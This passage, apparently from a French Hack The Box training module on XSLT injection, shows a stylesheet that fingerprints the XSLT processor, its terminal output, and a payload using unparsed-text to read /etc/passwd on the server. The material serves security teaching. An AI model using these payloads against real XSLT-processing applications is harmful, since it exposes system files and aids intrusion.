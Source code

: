 ```

```

Le fichier suivant peut être utilisé pour détecter le préprocesseur sous-jacent.

#### détection.xsl

Code : xml

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>

```

Exécutons maintenant la commande précédente, mais cette fois, en utilisant le fichier detection.xsl.

#### Transformation par le terminal

  Transformation par le terminal

```
dsgsec@htb[/htb]$ saxonb-xslt -xsl:detection.xsl catalogue.xml

Warning: at xsl:stylesheet on line 2 column 80 of detection.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<h2>XSLT identification</h2><b>Version:</b>2.0<br><b>Vendor:</b>SAXON 9.1.0.8 from Saxonica<br><b>Vendor URL:</b>http://www.saxonica.com/<br>

```

Sur la base du préprocesseur, nous pouvons consulter la documentation XSLT de cette version pour identifier les fonctions intéressantes, telles que celles ci-dessous.

-   `unparsed-text`peut être utilisé pour lire des fichiers locaux.

#### readfile.xsl

Code : xml

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>

```
